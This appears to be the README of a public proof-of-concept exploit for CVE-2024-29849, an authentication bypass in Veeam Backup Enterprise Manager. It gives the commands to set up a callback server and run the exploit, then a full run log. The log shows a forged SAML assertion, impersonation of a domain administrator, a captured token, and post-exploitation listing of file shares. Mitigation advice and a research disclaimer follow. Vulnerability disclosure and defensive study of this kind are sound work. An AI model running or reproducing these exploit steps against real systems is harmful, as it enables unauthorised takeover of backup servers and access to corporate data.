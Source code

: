 # CVE-2024-29849
Veeam Backup Enterprise Manager Authentication Bypass ([CVE-2024-29849](https://www.veeam.com/kb4581)) by [Sina Kheirkhah (@SinSinology)](https://twitter.com/SinSinology) of [SummoningTeam (@SummoningTeam)](https://twitter.com/summoningteam)

## Technical Analysis
[A root cause analysis of the vulnerability can be found on my blog
](https://summoning.team/blog/veeam-enterprise-manager-cve-2024-29849-auth-bypass/
)
![poc](poc.gif)


## Summary
<p align="center">
  <img src="/poc.jpg" />
</p>

# Supported versions?

According to Veeam official advisory, all the versions BEFORE `Veeam Backup Enterprise Manager 12.1.2.172` are vulnerable

## Usage
First, you need to have the right setup for a local HTTPS setup, use the following commands
```plaintext
openssl req -new -x509 -keyout key.pem -out server.pem -days 365 -nodes
```

```plaintext
python CVE-2024-29849.py --target https://192.168.253.180:9398/ --callback-server 192.168.253.1:443

 _______ _     _ _______ _______  _____  __   _ _____ __   _  ______   _______ _______ _______ _______
 |______ |     | |  |  | |  |  | |     | | \  |   |   | \  | |  ____      |    |______ |_____| |  |  |
 ______| |_____| |  |  | |  |  | |_____| |  \_| __|__ |  \_| |_____| .    |    |______ |     | |  |  |

        (*) Veeam Backup Enterprise Manager Authentication Bypass (CVE-2024-29849)

        (*) Exploit by Sina Kheirkhah (@SinSinology) of SummoningTeam (@SummoningTeam)

        (*) Technical details: https://summoning.team/blog/veeam-cve-2024-29849-authentication-bypass/


(*) Target https://192.168.253.180:9398 is reachable and seems to be a Veeam Backup Enterprise Manager
(*) Fetching certificate for 192.168.253.180
(*) Common Name (CN) extracted from certificate: batserver.evilcorp.local
(*) Assumed domain name: evilcorp.local
(?) Is the assumed domain name correct(Y/n)?y
(*) Target domain name is: evilcorp.local
(*) Starting callback server

(^_^) Prepare for the Pwnage (^_^)

(*) Callback server listening on https://192.168.253.1:443
192.168.253.1 - - [10/Jun/2024 07:20:13] "GET / HTTP/1.1" 200 -
(*) Callback server 192.168.253.1:443 is reachable
(*) Triggering malicious SAML assertion to https://192.168.253.180:9398
(*) Impersonating user: administrator@evilcorp.local
192.168.253.180 - - [10/Jun/2024 07:20:13] "POST /ims/STSService HTTP/1.1" 200 -
(+) SAML Auth request received, serving malicious RequestSecurityTokenResponseType

(+) Exploit was Successful, authenticated as administrator@evilcorp.local
(*) Got token: MmIzOGVjMzQtZGIxZC00MWE3LTgxNjMtNjA2MTE4ODY5ZDkw
(*) Starting post-exploitation phase
(*) Retrieving the list of file servers
{'FileServers': [{'ServerType': 'SmbServer', 'HierarchyObjRef': 'urn:NasBackup:FileServer:9dee6394-bf7a-4dc6-a9a5-4faf2e22551d.0d4a7862-82cb-4c93-a53b-e500d6cb9e35', 'SmbServerOptions': {'Path': '\\\\192.168.253.134\\corporate-docs', 'CredentialsId': None}, 'NfsServerOptions': None, 'FileServerOptions': None, 'ProcessingOptions': {'ServerUid': 'urn:veeam:FileServer:0d4a7862-82cb-4c93-a53b-e500d6cb9e35', 'CacheRepositoryUid': 'urn:veeam:Repository:88788f9e-d8f5-4eb4-bc4f-9b3f5403bcec'}, 'NASServerAdvancedOptions': {'ProcessingMode': 'Direct', 'StorageSnapshotPath': None}, 'Name': '\\\\192.168.253.134\\corporate-docs', 'UID': 'urn:veeam:FileServer:0d4a7862-82cb-4c93-a53b-e500d6cb9e35', 'Links': [{'Rel': 'Up', 'Href': 'https://192.168.253.180:9398/api/backupServers/e59b6cc4-444e-4a2d-a986-3d4d0b8791de', 'Name': '192.168.253.134', 'Type': 'BackupServerReference'}, {'Rel': 'Alternate', 'Href': 'https://192.168.253.180:9398/api/nas/fileServers/0d4a7862-82cb-4c93-a53b-e500d6cb9e35', 'Name': '\\\\192.168.253.134\\corporate-docs', 'Type': 'FileServerReference'}], 'Href': 'https://192.168.253.180:9398/api/nas/fileServers/0d4a7862-82cb-4c93-a53b-e500d6cb9e35?format=Entity', 'Type': 'FileServer'}]}


```

## Mitigations
Update to the latest version or mitigate by following the instructions within the Veeam Advisory
* https://www.veeam.com/kb4581

## Follow Us on Twitter for the latest security research:
*  [SinSinology](https://twitter.com/SinSinology)
*  [SummoningTeam](https://twitter.com/SummoningTeam)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

